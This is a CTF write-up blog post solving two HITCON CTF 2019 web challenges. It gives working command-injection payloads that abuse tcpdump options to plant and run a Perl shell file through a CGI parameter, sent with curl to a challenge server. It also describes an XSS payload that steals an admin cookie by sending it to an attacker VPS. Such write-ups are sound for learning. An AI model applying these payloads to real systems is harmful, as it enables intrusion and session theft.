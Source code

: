 ```yaml
---
layout : post
title : HITCON CTF 2019
---
```

HITCON CTF is a great hacking competition in CTF world.
I solved 2 web challanges of Orange. So here is writeup.
<h2>1. Virtual Public Network</h2>
I have read Orange's blog, I can understand that is a story of Orange when he hack VPN products.<br>
Note that `return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;` and `# backdoor :)` code, we can see that our shell will be located at `./tmp/`.<br>
But when using Orange's payload, I can not get the output as expect. So I get a problem and should be redirect output to shell with `>` and read it with _curl_
Remember that it requires a $tpl parameter to get filename of shell<br>
`my $tpl = CGI::param("tpl");<br>
...
    $tpl = "./tmp/" . $tpl . ".thtml";<br>
    require($tpl);`<br>
So I can create a final payload like this: `-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball` and urlencode it<br>
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball`<br>
`$READ_FLAG$<br>
FLAG<br>
bin<br>
boot<br>
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old`<br>
Encode `$` to read flag `$READ_FLAG` because $ will be interpreted as bash variable in Perl language and I can get it like this `\x24`. Using `sh -c '[command]'` to read flag because it is a binary file.<br>
Finall payload: `-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`<br>
Flag: `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`<br>
Reference: 
<br><h2>Bounty Pl33z</h2>
This is a XSS challenge. When I click submit bugs it will redirects to `https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361`<br>
So using <code>_${alert()}`-"-(`${`_</code> to trigger XSS, so setup a VPS and redirect challenge's network to get admin's cookie (=flag)

Thank you for a great CTF!
